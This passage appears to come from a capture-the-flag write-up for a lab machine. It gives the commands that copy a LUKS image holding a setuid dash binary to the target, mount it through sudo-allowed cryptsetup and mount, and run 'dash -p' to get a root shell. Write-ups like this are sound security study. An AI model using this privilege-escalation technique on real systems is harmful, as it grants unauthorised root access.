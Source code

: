 Unmount it and close:

```bash
sudo umount /mnt
sudo cryptsetup luksClose testtest
```
Copy it to the machine:

```bash
scp test.luks pain@10.10.10.183:/dev/shm
```

Mount the image:

```bash
cd /dev/shm

sudo /sbin/cryptsetup luksOpen test.luks backup
Enter passphrase for test.luks: 

cd /
sudo /bin/mount /dev/mapper/backup ./mnt/
```

Run dash:

```bash
cd mnt/
./dash -p
# whoami
root
```
